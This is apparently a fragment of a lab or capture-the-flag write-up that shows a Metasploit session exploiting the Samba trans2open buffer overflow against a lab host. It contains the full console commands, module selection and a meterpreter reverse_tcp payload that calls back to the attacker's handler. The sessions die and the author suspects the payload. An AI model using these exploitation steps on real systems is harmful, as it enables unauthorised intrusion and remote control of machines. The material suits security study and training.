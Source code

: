 OpenSSH 2.9p2 Potentailly vulnerable to BufferOverFlow  

## Exploitation
### Gaining ROOT with Metasploit
```
┌──(psychic㉿0xShakhawat)-[~]
└─$ msfconsole
msf6 > search trans2open

Matching Modules
================

   #  Name                              Disclosure Date  Rank   Check  Description
   -  ----                              ---------------  ----   -----  -----------
   0  exploit/freebsd/samba/trans2open  2003-04-07       great  No     Samba trans2open Overflow (*BSD x86)
   1  exploit/linux/samba/trans2open    2003-04-07       great  No     Samba trans2open Overflow (Linux x86)
   2  exploit/osx/samba/trans2open      2003-04-07       great  No     Samba trans2open Overflow (Mac OS X PPC)
   3  exploit/solaris/samba/trans2open  2003-04-07       great  No     Samba trans2open Overflow (Solaris SPARC)


Interact with a module by name or index. For example info 3, use 3 or use exploit/solaris/samba/trans2open

msf6 > use exploit/linux/samba/trans2open
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/samba/trans2open) > options
.......

msf6 exploit(linux/samba/trans2open) > set rhosts 192.168.208.130
rhosts => 192.168.208.130
msf6 exploit(linux/samba/trans2open) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Samba 2.2.x - Bruteforce


msf6 exploit(linux/samba/trans2open) > exploit

[*] Started reverse TCP handler on 192.168.208.139:4444 
[*] 192.168.208.130:139 - Trying return address 0xbffffdfc...
[*] 192.168.208.130:139 - Trying return address 0xbffff7fc...
[*] Sending stage (1017704 bytes) to 192.168.208.130
[*] 192.168.208.130 - Meterpreter session 4 closed.  Reason: Died
[*] 192.168.208.130:139 - Trying return address 0xbfffdbfc...
[*] 192.168.208.130:139 - Trying return address 0xbfffdafc...
^C[-] 192.168.208.130:139 - Exploit failed [user-interrupt]: Interrupt 
[-] exploit: Interrupted
```
Meterpreter session 4 closed.  Reason: Died  
Payload used: ` linux/x86/meterpreter/reverse_tcp `  
Maybe payload is the issue.  
  